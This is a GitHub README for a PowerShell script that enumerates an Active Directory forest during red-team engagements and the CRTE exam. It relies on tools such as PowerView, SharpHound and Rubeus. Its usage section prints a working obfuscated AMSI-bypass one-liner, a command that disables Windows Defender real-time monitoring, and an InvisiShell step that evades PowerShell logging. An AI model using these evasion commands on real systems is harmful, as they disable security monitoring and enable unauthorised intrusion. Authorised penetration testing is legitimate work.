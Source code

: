 # ADRedTeamEnumScript

This AD Red Team Enumeration Script is used to query a lot of aspects of your target Forest. The script will save all output from each enumeration task into a folder separating out the output files into appropriate folders for analyze later. This script saved me a lot of time on the enumeration portion for the [Pentester Academy CRTE](https://www.pentesteracademy.com/redteamlab) exam. Will be extremely useful for any traditional AD pentesting engagement. The script contains more information within it to help you enumerate discovered resources further, so ensure you read the commented out portions! 

This script is also designed to run other popular scripts and modules intended to get the most information out of your target AD Domain. You should look into their project to understand the full capabilities of the tools besides the small task performed within this script.

* [Microsoft AD Module (Powershell)](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2019-ps)
* [Invishell](https://github.com/OmerYa/InvisiShell)
* [ADACLScan](https://github.com/canix1/ADACLScanner)
* [Find-PSServiceAccounts](https://github.com/PyroTek3/PowerShell-AD-Recon)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)
* [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)
* [Rubeus](https://github.com/GhostPack/Rubeus/releases/tag/1.6.4)

## Usage

Not necessary to be an admin to run the script, but of course easier to get around most security features, heres a few tips that will help prevent the script from being blocked:

### Bypassing PowerShell Security

**To avoid verbose PowerShell logging - use [invishell](https://github.com/OmerYa/InvisiShell) (RunWithRegistryNonAdmin)**

```C:\PATH\TO\SCRIPTS\InviShell\RunWithRegistryNonAdmin.bat```

**AntiMalware Scan Interface (AMSI) may detect some tools when you load them. Uses the following AMSI bypass:**

```sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )```

**Stop Windows Defender (need to be admin)**

```Set-MpPreference -DisableRealTimeMonitoring $true```
                             
After which you can run the script to enumerate your target. Now we can run the script on the vitim system that in joined to your target AD domain.

1. Download the repo and rename folder as 'scripts' or whatever you choose, but you'll need to modify the ADRedTeamEnumScripts.ps1, ComputersUsersGroups.ps1, DomainInfoTrusts.ps1, DCEnum.ps1 and GPOInfo.ps1 scripts in order for everything to work correctly. This repo includes the modules and scripts you need already inside the `bin` folder.

Want to do it manually:

1. Download all the scripts/tools mention above.

2. Store them in a folder called `bin`, inside another folder called `scripts`. 

3. Add the enumeration scripts inside the folder `scripts`. As shown below:

![ADredTeamEnumScript2](https://user-images.githubusercontent.com/20993128/129828201-8302ade2-9926-4c7b-ab9f-6433b997bd09.png)

4. Now run the main script:

```.\ADRedTeamEnumScripts.ps1```

![ADredTeamEnumScript](https://user-images.githubusercontent.com/20993128/129827187-3b424d44-436d-44ad-95ed-aa2cfe0ea8c2.png)

## Author
- [@n3t1nv4d3](https://twitter.com/n3t1nv4d3) author and researcher (https://github.com/n3t1nv4d3).
- Sources for other scripts used are linked to their names up above, thanks to your work I was able to create my personalize enum script. 
